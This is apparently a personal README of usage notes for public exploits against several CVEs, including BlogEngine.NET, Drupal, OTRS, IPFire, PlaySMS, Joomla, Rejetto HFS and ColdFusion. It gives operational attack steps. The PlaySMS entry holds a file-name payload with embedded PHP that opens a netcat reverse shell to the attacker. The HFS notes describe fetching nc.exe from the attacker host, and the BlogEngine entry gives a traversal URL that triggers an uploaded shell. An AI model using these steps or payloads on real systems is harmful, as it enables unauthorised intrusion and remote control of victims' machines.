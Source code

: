# Comments on Exploits
Author: @davimoreno

## [CVE-2019-6714](https://nvd.nist.gov/vuln/detail/CVE-2019-6714)
- **Source**: https://www.exploit-db.com/exploits/46353 
- **Vulnerability**: Directory Traversal and Remote Code Execution
- **Software**: BlogEngine.NET 3.3.6
- **Tested on**: Windows Server 2012 R2 
- **Comments**:
	- To get the reverse shell follow the steps in the exploit.
	1. Login to the target BlogEngine.NET system
	2. Go to some post to edit it
	3. Click on the file manager icon and upload the reverse shell code with the name "PostView.ascx"
		- The reverse shell code can be found in the exploit source.
		- Remember to edit the reverse shell to contain your listening IP and port.
	4. Open listener in local machine
	5. Access http://TARGET_IP/?theme=../../App_Data/files

## [CVE-2018-7600](https://nvd.nist.gov/vuln/detail/CVE-2018-7600)
- **Source**: https://www.exploit-db.com/exploits/44449
- **Vulnerability**: Remote Command Execution
- **Software**: Drupal before 7.58, 8.x before 8.3.9, 8.4.x before 8.4.6, and 8.5.x before 8.5.1
- **Tested on**: 
- **Comments**:
	- Also known as Drupalgeddon2
	- The script will return a webshell that we can interact.
	- Execute ruby script
```linux-shell
./CVE-2018-7600.rb http://RHOST:RPORT/
```
## [CVE-2017-16921](https://nvd.nist.gov/vuln/detail/CVE-2017-16921)
- **Source**:
	- Explanation: https://www.exploit-db.com/exploits/43853
	- Code: https://www.exploit-db.com/exploits/49794
- **Vulnerability**: Authenticated Remote Command Execution
- **Software**: OTRS 6.0.x up to and including 6.0.1, OTRS 5.0.x up to and including 5.0.24, and OTRS 4.0.x up to and including 4.0.26
- **Tested on**: 
- **Comments**:
	- Just edit the exploit parameters and open a listener before execution.
## [CVE-2017-9757](https://nvd.nist.gov/vuln/detail/CVE-2017-9757)
- **Source**: https://github.com/davimoreno/ipfire_rce/blob/main/ipfire_rce.sh
- **Vulnerability**: Authenticated Remote Command Execution
- **Software**:  < IPFire 2.19 with core update 110
- **Tested on**: 
- **Comments**:
	- Edit the parameters inside the exploit, including IP/Port to listen, and IPFire credentials.
	- Open listener to receive the reverse shell.
	- Edit the `PAYLOAD` in the exploit if you want to execute a different command. The payload needs to be URL encoded.
## [CVE-2017-9080](https://nvd.nist.gov/vuln/detail/CVE-2017-9080)
- **Source**: 
- **Vulnerability**: Authenticated Remote Command Execution
- **Software**: PlaySMS 1.4
- **Tested on**: 
- **Comments**:
	1. Find playsms folder in target application (e.g. http://example.com/playsms)
	2. Login with valid credentials in http://example.com/playsms
	3. Create in the attacker machine a malicious file. E.g.
		- `touch "asdasd.<?php exec('nc LHOST LPORT -e \$(which bash)&'); ?>.png"`
	4. Open listener in LPORT.
	5. Upload the malicious file in http://example.com/playsms/index.php?app=main&inc=feature_sendfromfile&op=list to get the reverse shell
## [CVE-2017-8917](https://nvd.nist.gov/vuln/detail/CVE-2017-8917)
- **Source**: https://github.com/davimoreno/joomla_3-7-0_sqli
- **Vulnerability**: SQLi
- **Software**: Joomla! 3.7.x before 3.7.1
- **Tested on**:
- **Comments**:
	- The script dumps the first user's username, email, and password from the Joomla database.
## [CVE-2014-6287](https://nvd.nist.gov/vuln/detail/CVE-2014-6287)
- **Source**: https://www.exploit-db.com/exploits/39161
- **Vulnerability**: Remote Command Execution
- **Software**: Rejetto HTTP File Server (HFS) 2.3.x
- **Tested on**: Windows Server 2008 , Windows 8, Windows 7 
- **Comments**:
	- The exploit tries to download "nc.exe" from the attacker machine, and then use it to execute a reverse shell. We can edit the command to be executed if needed (e.g. Windows Defender blocking "nc.exe"). 
	- Need to open webserver at port 80 inside a directory with "nc.exe" inside it. This executable can be found in
		- Kali: `/usr/share/windows-binaries/`
		- https://github.com/andrew-d/static-binaries/blob/master/binaries/windows/x86/ncat.exe
	- Edit the exploit `ip_addr` and `local_port` variables to match the local IP address and port to listen on.
	- Open listener at the port indicated by `local_port`.
	- Execute the exploit twice with the command
```linux-shell
python2 CVE-2014-6287.py TARGET_IP TARGET_PORT
```
## [CVE-2012-0002](https://nvd.nist.gov/vuln/detail/CVE-2012-0002)
- **Source**: https://github.com/d3fudd/MS12-020_Esteemaudit
- **Vulnerability**: Remote Command Execution
- **Software**: 
- **Tested on**: Windows Server 2003 SP1, SP2, and Windows XP SP0, SP1, SP3.
- **Comments**:
	- This is a vulnerability on the implementation of the RDP protocol in some windows systems.
	- This vulnerability is also known as Esteemaudit.
	- Just follow the steps in the source link.

## [CVE-2009-2265](https://nvd.nist.gov/vuln/detail/CVE-2009-2265)
 - **Source**: https://www.exploit-db.com/exploits/50057
- **Vulnerability**: Remote Command Execution
- **Software**: Adobe ColdFusion 8
- **Tested on**: 
- **Comments**:
	- Just edit the exploit parameters related with LHOST,LPORT,RHOST,RPORT.
	- This vulnerability is related with the version of FCKeditor used by ColdFusion8.
## [CVE-XXXX-XXXX](https://nvd.nist.gov/vuln/detail/CVE-2014-6287)
- **Source**: 
- **Vulnerability**: 
- **Software**: 
- **Tested on**: 
- **Comments**:
